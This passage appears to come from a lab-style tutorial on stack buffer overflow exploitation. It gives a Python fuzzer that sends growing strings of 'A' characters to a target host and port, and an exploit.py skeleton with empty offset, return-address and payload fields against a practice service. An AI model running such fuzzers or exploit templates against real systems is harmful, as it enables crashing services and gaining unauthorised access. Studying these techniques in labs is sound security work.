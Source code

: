 ```
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        data = s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
  
#### Step 5: Create exploit.py skeleton:
*Most likely, the examples provided will have to be modified in some way since every program is different*
 
exploit.py Example 1:
 
```
import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
 